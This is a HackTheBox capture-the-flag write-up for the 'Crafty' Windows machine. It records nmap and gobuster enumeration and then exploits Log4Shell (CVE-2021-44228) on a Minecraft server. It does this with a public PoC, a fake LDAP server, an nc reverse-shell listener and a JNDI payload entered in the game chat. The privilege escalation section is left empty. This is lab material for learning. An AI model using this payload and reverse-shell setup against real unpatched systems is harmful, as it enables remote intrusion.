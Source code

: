 ```yaml
---
aliases:
  - Crafty
Date: 2024-03-08
Platform: HackTheBox
Category: Machine
Difficulty: Easy
tags:
  - Windows
  - HackTheBox
  - "#Minecraft"
  - LDAP
Status: 
IP: 10.10.11.249
---
```


# Crafty

## Improved skills
- Remote Code Execution

## Used tools
- nmap
- gobuster

---

# Information Gathering

## Nmap

Scanned all TCP ports
Nothing interesting port **25565** and **Minecraft 1.16.5** version

```bash
┌──(kali㉿kali)-[~/Machine]
└─$ sudo nmap -sT -sV -p- crafty.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 15:52 EST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.036s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Gobuster

Scanned all possibility directory
Nothing of interesting i found for directory enumeration

```bash
┌──(kali㉿kali)-[~/Machine]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u crafty.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://crafty.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/home                 (Status: 200) [Size: 1826]
/img                  (Status: 301) [Size: 145] [--> http://crafty.htb/img/]
/Home                 (Status: 200) [Size: 1826]
/css                  (Status: 301) [Size: 145] [--> http://crafty.htb/css/]
/js                   (Status: 301) [Size: 144] [--> http://crafty.htb/js/]
/IMG                  (Status: 301) [Size: 145] [--> http://crafty.htb/IMG/]
/CSS                  (Status: 301) [Size: 145] [--> http://crafty.htb/CSS/]
/Img                  (Status: 301) [Size: 145] [--> http://crafty.htb/Img/]
/JS                   (Status: 301) [Size: 144] [--> http://crafty.htb/JS/]
/HOME                 (Status: 200) [Size: 1826]
/coming-soon          (Status: 200) [Size: 1206]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================

```

---

# Exploitation
## Apache Log4j Remote Code Execution Vulnerability - CVE-2021-44228

The Minecraft 1.16.5 version have the Log4j dll vulnerable to this [CVE](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-44228).
I found the exploit in this [github repository](https://github.com/kozmer/log4j-shell-poc) the proof of concept.
To exploit this vulnerability we need the [TLAUNCHER](https://tlauncher.org/jar) to play minecraft.

First step clone the repository and edit the poc.py file because the own machine is Windows and this python script it is thought, so edit the line 26 from **String cmd="/bin/bash";** to **String cmd="cmd.exe";**. 

![[Pasted image 20240310225653.png]]

Setup **PoC** and obtained an **LDAP URL**.  
![[Pasted image 20240310235407.png]]

```python
$ python3 poc.py --userip tun0 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

Then setup the listener 
``` python
nc -lvnp 9001

```

Ok once setup the Poc and the listener can we start the **[TLAUNCHER](https://tlauncher.org/jar)** with the Fabric 1.16.5 version 
![[Pasted image 20240309144937.png]]

Now connect the multiplayer server (if don't see click add Server and put the IP:25565).
![[Pasted image 20240309145213.png]]

When the game started press *T* and type the **LDAP URL** in the chat and press enter.

``` text
${jndi:ldap://localhost:1389/a}
```

Now we have the reverse shell spawned in the listener, in the directory *C:\\Users\\svc_minecraft\\Desktop* is found the user flag.

//TODO PUT HERE THE FLAG

---

# Privilege Escalation


---

# Trophy & Loot
user.txt

root.txt